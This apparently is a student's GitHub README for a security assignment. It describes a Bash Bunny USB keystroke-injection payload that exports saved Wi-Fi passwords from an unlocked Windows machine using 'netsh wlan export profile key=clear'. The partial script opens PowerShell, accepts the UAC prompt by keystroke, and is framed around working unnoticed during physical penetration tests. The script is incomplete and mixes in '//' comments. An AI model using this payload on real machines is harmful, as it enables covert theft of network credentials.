 # BashBunny-Script-6
In this I am creating a Bash Bunny Script to hack the credentials from a locked machine
In this script I wanted to try and hack the wireless credentials form a locked machine through bash bunny

I took the reference from the below link

https://blog.didierstevens.com/2017/04/06/quickpost-using-my-bash-bunny-to-snag-creds-from-a-locked-machine/

 Basically, what this module does is force an administrator command prompt to run and then issue the following command
 
 netsh wlan export profile key=clear
  
 Since the machine has to be unlocked anyway, you might be wondering why not just open a command prompt and run the above command manually? Why bother with the Bash Bunny? Here is why: When you are doing a physical penetration test or red team engagement you will often find unlocked workstations. If you are going to collect data from such a workstation it is much easier to be stealthy if all you have to do is plug-in a USB. You would not necessarily even need to sit down at the computer. Let’s face it, typing on someone else’s keyboard is definitely a red flag if someone were to notice you but standing near someone’s desk (while you wait about 7 seconds for the Bash Bunny to do its job) can be much easier “explained” if you get caught.
 
Here is how to prep and launch the attack:

First, put the bunny in arming mode (switch position 3, toward the insertion point) and grab the payload files


I tried with the script below 


# Source bunny_helpers.sh to get the environment

source bunny_helpers.sh

# Set language accordingly ( Here I have set it to US English)

Q SET_LANGUAGE US

ATTACKMODE HID STORAGE

LED B 200

#Launch Powershell As Admin

Q GUI r
Q DELAY 100
Q STRING powershell Start-Process powershell // This will start the powershell
Q ENTER

# Bypass UAC

Q DELAY 3000
Q ALT y     // Q ALT y” command means to enter the letter “y” when the UAC prompt is presented 
Q ENTER    // This is for the the UAC elevation permission
Q DELAY 500


To launch the attack move the switch to the switch position where you stored the payloads, in Switch 1 or Switch 2

Then, Plug it into the Unlocked Machine.

Each of these files contains the SSID and where possible (WEP/WPA-PSK &WPA2-PSK), the passphrase:

![alt tag](D:\Studies\Nik_Spring_20_Sem\Cyber_Security\Assignments\Assignment 6\wirelessfiles.jpg)
